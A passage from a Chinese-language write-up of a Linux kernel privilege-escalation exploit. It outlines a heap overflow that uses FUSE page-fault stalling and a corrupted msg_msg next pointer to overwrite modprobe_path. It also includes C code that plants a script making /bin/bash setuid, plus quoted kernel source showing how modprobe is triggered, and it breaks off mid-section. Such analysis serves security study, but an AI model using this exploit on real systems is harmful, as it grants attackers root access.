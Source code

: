 - （1）打开pipe对，两个进程共享一块可发送数据的内存，可用于同步（保证篡改`msg_msg->next` 之后再处理用户页错误，继续拷贝以篡改 `modprobe_path`）；
- （2）在exp中fork出子进程用于运行FUSE，处理文件系统请求；
- （3）泄露内核基址（见 `3-1` 地址泄露步骤）；
- （4）open/mmap evil file（将fusefd映射到地址`0x1338000`，这样msg copy 访问到该地址时触发页错误处理）；
- （5）准备堆溢出，调用 `fsopen` 和 `fsconfig`；
- （6）创建子线程溢出覆盖 next 指针；
- （7）同时，主线程触发 `msg_send`，让步于FUSE代码来处理页错误；
- （8）FUSE在共享pipe上调用read，触发阻塞，直到有字节写入pipe；
- （9）到这里，溢出线程写入pipe（表示 `msg_msg->next` 已被篡改），导致FUSE释放，线程将恶意数据拷贝到目标地址。

**写目标**：`modprobe_path`。

```c
char *modprobe_win = "/tmp/w";
#define  SHELL  "/bin/bash"
[ ... ]
void modprobe_init() {
  int fd;
  [ ... ]
  char w[] = "#!/bin/sh\nchmod u+s " SHELL "\n";
  chmod(modprobe_trigger, 0777);
  fd = open(modprobe_win, O_RDWR | O_CREAT);
  if (fd < 0) {
    perror("winner creation failed");
    exit(-1);
  }
  write(fd, w, sizeof(w));
  close(fd);
  chmod(modprobe_win, 0777);
  return;
}
```

**触发 `modprobe_path`**：执行一个含未知字节的binary，内核就会利用modprobe去寻找一个module来加载该binary。

```c
// 内核源码
do_execve return do_execveat_common(fd, filename, argv, envp, flags);
do_execveat_common retval = bprm_execve(bprm, fd, filename, flags);
bprm_execve retval = exec_binprm(bprm);
exec_binrpm ret = search_binary_handler(bprm);
search_binary_handler if (request_module("binfmt-%04x", *(ushort *)(bprm->buf + 2)) < 0)
request_module ret = call_modprobe(module_name, wait ? UMH_WAIT_PROC : UMH_WAIT_EXEC);
call_modprobe
static int call_modprobe(char *module_name, int wait) {
	struct subprocess_info *info;
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/usr/sbin:/bin:/usr/bin",
		NULL
	};
	char **argv = kmalloc(sizeof(char *[5]), GFP_KERNEL);
	module_name = kstrdup(module_name, GFP_KERNEL);
	argv[0] = modprobe_path; // <--- overwritten!
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL, NULL, free_modprobe_argv, NULL);
	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
}

// exp 中代码
```